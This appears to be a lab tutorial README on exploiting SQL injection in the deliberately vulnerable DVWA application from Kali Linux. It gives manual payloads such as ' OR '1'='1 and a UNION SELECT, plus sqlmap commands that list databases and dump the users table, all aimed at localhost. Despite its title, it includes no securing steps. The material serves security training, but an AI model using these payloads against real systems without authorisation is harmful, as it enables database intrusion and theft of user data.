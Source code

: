 # Project 7: Exploiting and Securing a Database using SQL Injection on DVWA

## Introduction
In this project, you will learn how to exploit SQL injection vulnerabilities using the Damn Vulnerable Web Application (DVWA) on Kali Linux. SQL injection is a common attack vector that can be used to manipulate databases and extract sensitive information. By the end of this project, you will be able to identify and exploit SQL injection vulnerabilities and understand how to secure databases against such attacks.

## Pre-requisites
- Basic understanding of web application and database concepts.
- Familiarity with using the command line interface (CLI).
- Basic knowledge of SQL and web security principles.

## Lab Set-up and Tools

### Diagram
Here is a simple network diagram for this lab setup:

+------------------+ +------------------+
| Attacker | | Vulnerable Web |
| Kali Machine |<----->| Application |
| (192.168.1.100) | | (DVWA) |
+------------------+ | (192.168.1.101) |
+------------------+


### Tools
- **Kali Linux**: A Debian-derived Linux distribution designed for digital forensics and penetration testing.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately vulnerable web application.
- **MySQL**: Database management system used by DVWA.
- **Burp Suite**: An integrated platform for performing security testing of web applications (pre-installed on Kali Linux).

### Installation
#### DVWA
1. Clone the DVWA repository:
```sh
git clone https://github.com/digininja/DVWA
```
2. Navigate to the DVWA directory and copy the configuration file:
```
cd DVWA
cp config/config.inc.php.dist config/config.inc.php
```
3. Start the MySQL service and create a database for DVWA:
```
sudo service mysql start
sudo mysql -u root -p
CREATE DATABASE dvwa;
exit;
```
4. Start the Apache service:
```
sudo service apache2 start
```
5. Open DVWA in your web browser at http://localhost/DVWA/setup.php and click on "Create / Reset Database".

## Tasks

### Task 1: Access DVWA and Set Security Level
Step1: Open DVWA in your web browser at http://localhost/DVWA/login.php.
Step2: Log in with the default credentials (admin/password).
Step3: Navigate to the DVWA Security page and set the security level to "Low".
Expected Output: DVWA security level should be set to "Low", making it vulnerable to SQL injection.

### Task 2: Identify SQL Injection Vulnerability
Step1: Navigate to the SQL Injection page in DVWA.
Step2: In the input field, enter:
```sh
' OR '1'='1
```
Step3: Click "Submit" and observe the results.
Expected Output: The application should return all entries in the database, indicating a successful SQL injection.

### Task 3: Extract Data using SQL Injection
Step1: Modify the SQL injection payload to extract data from the database. For example:
```sh
' UNION SELECT user(), database(), version() --
```
Step2: Click "Submit" and observe the results.
Expected Output: The application should display the database user, name, and version information.

### Task 4: Use SQLMap for Automated SQL Injection
Step1: Open a terminal on your Kali Linux machine.
Step2: Use SQLMap to automate the SQL injection process. Replace http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit with the actual URL:
```sh
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=<your-session-id>" --dbs
```
Expected Output: SQLMap should list all databases available on the server.

### Task 5: Extract Tables and Data using SQLMap
Step1: Use SQLMap to extract tables from the target database. Replace dvwa with the target database name:
```sh
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=<your-session-id>" -D dvwa --tables
```
Step2: Extract data from a specific table (e.g., users):
```sh
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=<your-session-id>" -D dvwa -T users --dump
```
Expected Output: SQLMap should display the contents of the users table.


## Additional Resources
DVWA Documentation
Kali Linux Documentation
OWASP SQL Injection Prevention Cheat Sheet
SQLMap Documentation


This project will help you understand how to exploit SQL injection vulnerabilities and secure databases against such attacks using DVWA on Kali Linux, enhancing your skills in web security and database protection.




   
